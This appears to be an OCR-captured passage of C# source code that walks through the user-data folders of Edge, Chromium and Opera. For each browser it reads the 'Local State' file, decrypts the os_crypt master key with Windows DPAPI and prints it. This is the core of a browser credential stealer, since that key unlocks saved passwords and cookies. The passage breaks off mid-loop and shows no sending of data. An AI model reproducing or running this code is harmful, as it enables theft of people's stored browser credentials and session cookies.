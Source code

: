             { "Microsoft Edge", Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Microsoft\Edge\User Data") },

            { "Chromium", Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Chromium\User Data") },

            { "Opera", Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), @"Opera Software\Opera Stable") }

        };





        JObject mainJson = new JObject();



        foreach (var browser in browserPaths)

        {

            string browserName = browser.Key;

            string userDataPath = browser.Value;



            Console.WriteLine($"Browser in use: {browserName}");

            Console.WriteLine($"Path to User Data folder: {userDataPath}");





            string localStatePath = Path.Combine(userDataPath, "Local State");

            if (File.Exists(localStatePath))

            {



                string localStateData = File.ReadAllText(localStatePath);



                dynamic json = JObject.Parse(localStateData);



                string encryptedKeyBase64 = json.os_crypt.encrypted_key;



                byte[] encryptedKey = Convert.FromBase64String(encryptedKeyBase64);



                byte[] trimmedKey = encryptedKey.Skip(5).ToArray();





                byte[] decryptedKey = ProtectedData.Unprotect(trimmedKey, null, DataProtectionScope.CurrentUser);

                string decryptedKeyBase64 = Convert.ToBase64String(decryptedKey);

                Console.WriteLine($"Decrypted Key (Base64): {decryptedKeyBase64}");
